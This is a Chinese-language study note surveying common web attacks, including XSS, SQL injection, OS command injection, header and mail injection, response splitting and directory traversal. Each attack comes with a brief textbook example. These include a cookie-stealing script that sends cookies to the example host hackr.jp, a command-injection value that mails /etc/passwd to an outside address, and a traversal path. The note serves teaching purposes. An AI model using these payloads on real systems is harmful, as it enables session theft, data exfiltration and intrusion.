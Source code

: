 # Web 攻击

目录

- [原因](#原因)
- [攻击方式](#攻击方式)
    - [跨站脚本攻击 XSS](#跨站脚本攻击-xss)
    - [对用户 Cookie 的窃取攻击](#对用户-cookie-的窃取攻击)
    - [SQL 注入攻击](#sql-注入攻击)
    - [OS 命令注入攻击](#os-命令注入攻击)
    - [HTTP 首部注入攻击](#http-首部注入攻击)
    - [HTTP 响应截断攻击](#http-响应截断攻击)
    - [邮件首部注入攻击](#邮件首部注入攻击)
    - [目录遍历攻击](#目录遍历攻击)

## 原因

- HTTP 不具备安全功能
- 在客户端可以篡改请求

## 攻击方式

### 跨站脚本攻击 XSS

通过提交的信息中带入 js 脚本，执行操作或者引入三方 js 。

正常请求：<br />
http: //example.jp/login?ID="haha"<br />
正常显示：<br />
&lt;input type="text" name="ID" value="yama" />

攻击请求：<br />
http: //example.jp/login?ID=">&lt;script>var+f=document.getElementById("login");&lt;/script>"<br />
攻击显示：<br />
&lt;input type="text" name="ID" value="">&lt;script>var+f=document.getElementById("login");&lt;/script>

### 对用户 Cookie 的窃取攻击

恶意三方脚本执行。

如下：<br />
var content = escape(document.cookie);<br />document.write("&lt;img src=http: //hackr.jp/?");<br />document.write(content);<br />document.write(">");<br />

### SQL 注入攻击

正常请求：<br />
http: //example.jp/search?q=haha<br />
正常执行：<br />
SELECT * FROM bookTbl WHERE author = 'haha' and flag = 1;

攻击请求：<br />
http: //example.jp/search?q=haha‘ --<br />
攻击显示：<br />
SELECT * FROM bookTbl WHERE author = 'haha' --’ and flag = 1;<br />
flag = 1 的条件被忽略

### OS 命令注入攻击

核心代码：<br />
my $adr = $q->param('mailaddress');<br />open(MAIL, "| /usr/sbin/sendmail $adr");<br />print MAIL "From: info @ example.com\n";<br />

当传入 mailaddress 参数为 ; cat /etc/passwd | mail hack @ example.jp

会执行下面的语句：<br />
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack @ example.jp<br />
将含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack @ example.jp。

### HTTP 首部注入攻击

http 头部信息：<br />
Location: http: // www.example.com/a.cgi?q=101%0D%0ASet-Cookie:+SID=123456789

%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http: //hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

### HTTP 响应截断攻击

HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻击叫做 HTTP 响应截断攻击。

如下：<br />
Set-Cookie: UID=（%0D%0A ：换行符）<br />（%0D%0A ：换行符）<br />&lt;HTML>&lt;HEAD>&lt;TITLE>之后，想要显示的网页内容 &lt;!--（原来页面对应的首部字利

### 邮件首部注入攻击

bob @ hackr.jp%0D%0ABcc: user @ example.com

%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。

bob @ hackr.jp%0D%0A%0D%0ATest Message

使用两个连续的换行符就有可能篡改邮件文本内容并发送。

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。

### 目录遍历攻击

http: //example.com/read.php?log=../../etc/passwd

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。